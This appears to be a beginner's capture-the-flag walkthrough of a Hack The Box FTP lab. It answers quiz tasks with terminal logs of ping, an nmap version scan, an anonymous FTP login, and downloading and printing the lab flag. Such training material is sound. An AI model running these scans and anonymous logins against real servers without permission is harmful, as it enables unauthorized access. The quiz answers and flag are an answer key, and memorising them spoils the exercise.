

Hopefully one day I will become very good at CTFs.
TASK 1
What does the 3-letter acronym FTP stand for?
File Transfer ProtocolTASK 2
Which port does the FTP service listen on usually?
21TASK 3
What acronym is used for the secure version of FTP?
SFTPSecure File Transfer Protocol. Designed by the Internet Engineering Task Force as an extension of Secure Shell (SSH).
TASK 4
What is the command we can use to send an ICMP echo request to test our connection to the target?
ping 1┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
2└──╼ [★]$ ping 10.129.67.107
3PING 10.129.67.107 (10.129.67.107) 56(84) bytes of data.
464 bytes from 10.129.67.107: icmp_seq=1 ttl=63 time=8.68 ms
564 bytes from 10.129.67.107: icmp_seq=2 ttl=63 time=8.81 ms
664 bytes from 10.129.67.107: icmp_seq=3 ttl=63 time=8.87 ms
764 bytes from 10.129.67.107: icmp_seq=4 ttl=63 time=8.68 ms
8^C
9--- 10.129.67.107 ping statistics ---
104 packets transmitted, 4 received, 0% packet loss, time 3006ms
11rtt min/avg/max/mdev = 8.679/8.760/8.873/0.082 ms
12┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
13└──╼ [★]$TASK 5
From your scans, what version is FTP running on the target?
vsftpd 3.0.3 1┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
2└──╼ [★]$ nmap -sV 10.129.67.107
3Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-17 05:49 BST
4Nmap scan report for 10.129.67.107
5Host is up (0.027s latency).
6Not shown: 999 closed tcp ports (conn-refused)
7PORT STATE SERVICE VERSION
821/tcp open ftp vsftpd 3.0.3
9Service Info: OS: Unix
10
11Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
12Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
13┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
14└──╼ [★]$TASK 6
From your scans, what OS type is running on the target?
UnixTASK 7
What is the command we need to run in order to display the ‘ftp’ client help menu?
ftp -hTASK 8
What is username that is used over FTP when you want to log in without having an account?
anonymous 1┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
2└──╼ [★]$ ftp 10.129.67.107
3Connected to 10.129.67.107.
4220 (vsFTPd 3.0.3)
5Name (10.129.67.107:root): anonymous
6331 Please specify the password.
7Password:
8230 Login successful.
9Remote system type is UNIX.
10Using binary mode to transfer files.
11ftp>TASK 9
What is the response code we get for the FTP message ‘Login successful’?
230TASK 10
There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.
ls 1┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
2└──╼ [★]$ ftp 10.129.67.107
3Connected to 10.129.67.107.
4220 (vsFTPd 3.0.3)
5Name (10.129.67.107:root): anonymous
6331 Please specify the password.
7Password:
8230 Login successful.
9Remote system type is UNIX.
10Using binary mode to transfer files.
11ftp> ls
12200 PORT command successful. Consider using PASV.
13150 Here comes the directory listing.
14-rw-r--r-- 1 0 0 32 Jun 04 2021 flag.txt
15226 Directory send OK.
16ftp>TASK 11
What is the command used to download the file we found on the FTP server?
get1ftp> get flag.txt
2local: flag.txt remote: flag.txt
3200 PORT command successful. Consider using PASV.
4150 Opening BINARY mode data connection for flag.txt (32 bytes).
5226 Transfer complete.
632 bytes received in 0.00 secs (32.7225 kB/s)
7ftp>SUBMIT THE FLAG
Submit root flag
035db21c881520061c53e0536e44f8151┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
2└──╼ [★]$ ls
3Desktop flag.txt my_data Templates
4┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
5└──╼ [★]$ cat flag.txt
6035db21c881520061c53e0536e44f815
7┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
8└──╼ [★]$